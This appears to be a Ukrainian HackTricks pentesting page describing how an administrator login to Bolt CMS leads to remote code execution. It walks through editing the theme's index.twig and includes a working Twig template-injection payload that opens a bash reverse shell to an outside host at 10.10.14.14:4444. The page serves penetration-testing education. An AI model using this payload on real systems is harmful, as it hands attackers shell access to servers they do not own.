 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Після входу як адміністратор (перейдіть на /bot для доступу до форми входу), ви можете отримати RCE в Bolt CMS:

- Виберіть `Configuration` -> `View Configuration` -> `Main Configuration` або перейдіть за URL-адресою `/bolt/file-edit/config?file=/bolt/config.yaml`
- Перевірте значення теми

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Виберіть `File management` -> `View & edit templates`
- Виберіть базову тему, знайдену на попередньому (`base-2021` в даному випадку) кроці, і виберіть `index.twig`
- У моєму випадку це за URL-адресою /bolt/file-edit/themes?file=/base-2021/index.twig
- Вставте ваш payload у цей файл через [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), наприклад: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- І збережіть зміни

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Очистіть кеш у `Maintenance` -> `Clear the cache`
- Знову отримайте доступ до сторінки як звичайний користувач, і payload має бути виконано

{{#include ../../banners/hacktricks-training.md}}
